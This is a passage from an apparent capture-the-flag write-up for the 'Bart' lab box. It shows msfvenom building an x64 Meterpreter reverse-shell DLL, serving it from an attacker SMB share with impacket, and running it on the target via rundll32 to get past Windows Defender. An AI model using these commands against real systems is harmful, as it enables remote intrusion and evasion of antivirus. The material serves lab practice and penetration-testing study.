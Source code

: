 

The weird thing here is that x64 payloads are very unstable and get nuked quickly somehow, but a standard x86/32 bit msfvenom payload does not seem to get detected and we get a stable shell that's at least good enough to look around with. Not sure if that's a bug or feature of this box and windows defender. With a 32 bit shell on a 64 bit machine, sometimes various commands and windows tools will not work properly and it's a big pain. If we try harder, we can use rundll32.exe and a dll file with impacket instead of just executing a plain old binary over smb, and it gives us a stable shell with a x64 payload that avoids windows defender. First create the dll with msfvenom and serve it up with impacket:
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=443 -f dll -o 64443.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 5120 bytes
Saved as: 64443.dll
$ impacket-smbserver BLAH /root/labs/htb/bart
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies
                                                
[*] Config file parsed                         
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                      
[*] Config file parsed                                            
[*] Config file parsed                         
[*] Incoming connection (10.10.10.81,49690)
[*] AUTHENTICATE_MESSAGE (\,BART)               
[*] User \BART authenticated successfully      
[*] :::00::4141414141414141                 
```

We setup multi handler in metasploit then use our php shell to exec a rundll command.



![](pics/rundll32exec.JPG)


[localhost]: PS C:\Users\Administrator\Documents> whoami
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"